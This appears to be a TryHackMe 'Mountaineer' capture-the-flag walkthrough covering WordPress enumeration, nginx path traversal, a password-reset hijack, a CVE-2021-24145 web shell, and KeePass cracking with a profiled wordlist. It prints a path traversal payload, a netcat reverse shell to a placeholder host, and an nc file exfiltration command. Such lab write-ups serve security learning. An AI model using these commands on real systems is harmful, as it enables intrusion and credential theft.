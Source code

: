 
> [!NOTE] Quote
> Everything I lose, creates space for everything I need.

Tags: #Boot2root #tryhackme 
### Recon

During recon we find that a nginx welcome page is running on port 80.
### Enumeration 

On using dirsearch, The output revealed the presence of a **WordPress installation**.

I navigated to `/wordpress/` and found a broken or improperly configured WordPress site. While hovering over some random links on the page, I noticed that they pointed to `mountaineer.thm`, suggesting the website expects a specific virtual host configuration.

Edit the `/etc/hosts` file 

run WPScan to enumerate plugins and potential vulnerabilities. The scan revealed that the site was using a plugin called Modern Events Calendar Lite, which has remote code execution vulnerability documented in exploit DB

```
wpscan --url http://mountaineer.thm/wordpress/ -e u
```


The scan revealed a total of eight users, including k2, which matched the author name found on the website.

### Nginx Off-by-Slash Vulnerability

Since I didn’t gain much from the previous steps, I revisited the dirsearch output and noticed an unusual directory: `/wordpress/images` This path stood out because it's not a standard directory in a typical WordPress installation (or at least not one that usually exposes anything meaningful). When I tried to access the page, it returned a `403` Forbidden error

On intercepting the request and manipulating the path to attempt accessing sensitive files, such as:

```
/wordpress/images../etc/passwd
```

The response returned the contents of `/etc/passwd`, confirming a path traversal vulnerability due to improper handling of URL paths in the web server configuration.

fuzz the vulnerable endpoint to identify other accessible files. I used [[ffuf]] with a wordlist targeting common LFI paths and saved the output to a file:
```sh
ffuf -u 'http://mountaineer.thm/wordpress/images..FUZZ' \
     -w /usr/share/seclists/Fuzzing/LFI/LFI-linux-and-windows_by-1N3@CrowdShield.txt \
     -mc 200 -o fuzz.txt
     ```

This command searches for any valid LFI payloads that return a 200 OK response, indicating a successful file read.

To extract only the working paths from the output, I used:

```sh
cut -d'  ' -f1 fuzz.txt > burp_wordlist.txt
```

This generated a clean list of payloads, which can further be used in burp intruder for automating testing.

### Password Reset 

Inside `/var/mail/www-data`, I found an email containing a password reset link for the user Everest.

> However, when I visited the link, it had already expired. The reset page indicated that I could request a new password reset by submitting a username. This gave me an idea — what if I used this same functionality to reset the password for the admin account?

I submitted the username `admin`, and the site responded by saying a reset link had been sent to the registered email.

To intercept that link, I returned to BurpSuite Intruder, using the same [[LFI]] payloads to monitor for new entries in the webmail logs. After scrolling to the bottom of the response from `/var/mail/www-data`, I found a new password reset link , this time for the admin user. Click the link and reset the password 

While reviewing the responses from BurpSuite Intruder, one of the LFI payloads successfully retrieved `/var/log/lastlog`, which contained entries revealing a `hostname:adminroundcubemail.mountaineer.thm`. I added the hostname to my` /etc/hosts `file to resolve it locally, on visiting the domain, I was redirected to a Roundcube webmail login page.

### Roundcube Webmail

The page prompted for a username and password, so I initially attempted default credentials like `admin:admin`, but that didn’t work. Recalling that the admin’s display name in the article was previously identified as K2, I tried logging in with `K2:k2 `— and it worked.

After logging in as K2 we find an email in the inbox containing passwords for K2's account 
, also found in the sent folder a message addressed to a user named Lhotse. The email included several personal details about Lhotse, such as first name, surname, and other identifying information.

> This immediately reminded me of how data is typically structured when using [CUPP](https://github.com/Mebus/cupp) (Common User Passwords Profiler) — a tool that generates personalized wordlists based on user information

#### Exploiting CVE-2021–24145

Earlier I recalled that the site was running a vulnerable plugin:` Modern Events Calendar Lite.` Exploit-DB had a working exploit for authenticated Remote Code Execution.

Since I already had valid admin credentials from earlier enumeration, I used them to log in and run the exploit. It successfully uploaded a web shell (shell.php) to the target server.

The shell used was p0wny@shell, confirming that the exploit worked and we had planted a basic web shell.

To gain a more stable and interactive shell, I executed the following reverse shell payload on the target:
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <your-ip> <your-port> > /tmp/f
```
Also setup a NC listener `nc -nlvp 4444`

To [[Spawning a TTY shell]] stabilize the shell and make it interactive, I **ran**
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

Ctrl + Z

stty raw -echo; fg

ENTER
ENTER
```

### Cracking KeePass and Lateral Movement

discovered a user directory at `/home/lhotse` containing an interesting file: `backup.kdbx`, which is a KeePass database file.

transfer the file to yo own machine 
On the victim machine:
```sh
nc <your-ip> <your-port> < Backup.kdbx
```
On the attacker machine:
```sh
nc -lvnp <your-port> > Backup.kdbx
```

Inside the database, I browsed through the entries and found Entry 3, which contained credentials for the user `kangchenjunga`.Cracking the KeePass File
#### making a custom wordlist 

To access the contents of `Backup.kdbx`, I needed to crack its master password. I used `keepass2john` to extract the hash:

```
keepass2john Backup.kdbx > hash.txt
```

Then, I attempted to crack it with John the Ripper using common wordlists like rockyou.txt, but none of them worked

I recalled that the file was located under `lhotse’s` home directory, and based on earlier enumeration, I had access to Roundcube webmail data linked to this user. So I used that contextual information to generate a custom wordlist using `CUpp` (Common User Passwords Profiler):

> I filled in details gathered from Roundcube, such as the user’s full name, email, birthday, etc.

```
john hash.txt --wordlist=file.txt
```

##### KeePass CLI

After successfully cracking the KeePass password, I used `Kpcli` (KeePass CLI) to open the `Backup.kdbx` file. I entered the cracked password, and it worked. Browse around and find the pass for the user 

Try logging in as `kangchenjunga` via ssh. Get the first flag
### Privilege Escalation

Type `ls -la`, we find a file name `bash_history` and on opening that file we see the root password in plain text


### References

https://blog.devops.dev/mountaineer-ctf-tryhackme-writeup-c46a267387e5